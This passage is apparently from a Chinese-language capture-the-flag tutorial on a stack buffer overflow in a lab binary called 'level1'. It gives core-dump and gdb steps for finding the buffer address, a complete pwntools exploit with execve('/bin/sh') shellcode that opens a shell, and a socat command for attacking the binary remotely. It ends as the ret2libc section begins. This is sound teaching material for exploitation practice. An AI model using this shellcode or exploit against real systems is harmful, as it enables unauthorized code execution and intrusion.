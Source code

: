 ```shell
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```

开启之后，再次输入测试字符串（或长度大于144的字符串），因此程序内存错误，使系统在``/tmp``生成一个``core dump``文件。用gdb查看这个core文件得到真正的buf地址（本机是0xffffcec0，每台机不一样，请实际操作一下）。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191106235329.png)

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191106235400.png)

本地EXP

> 函数、gadget等地址，可能因电脑不同而不一致。请动手操作，获取本机相关地址后，自行替换

```python
#encoding:utf-8
from pwn import *

context.log_level = 'debug'

p = process("./level1")

ret_address = 0xffffcec0 # 请修改为你获取的shellcode所在的内存地址
# shellcode 可以用msf生成，或者去github找一个，注意长度!
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

payload = shellcode + 'a'*(0x88+0x4-len(shellcode)) + p32(ret_address)

p.send(payload) 
p.interactive() # 释放控制权
```

有可能脚本还是不能成功getshell，很大概率是ret的地址错了。我们再一次查找地址，这次加载的最新的core文件（后缀大的）。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191107092018.png)

替换为该地址，即可。

除了本地调试，还有远程部署的方式，如下，将题目绑定到指定端口上：

```
socat tcp-l:10001,fork exec:./level1
```

payload除了将p = process(“./level1”)改为p = remote(“127.0.0.1”, 10001)外，ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址，即可远程getshell。



### level 2  - ret2libc 绕过 DEP 防护

使用``checksec``检查题目``level2``，发现打开了NX保护（栈不可执行），也就是说不能像上一题将shellcode写到栈上后执行。
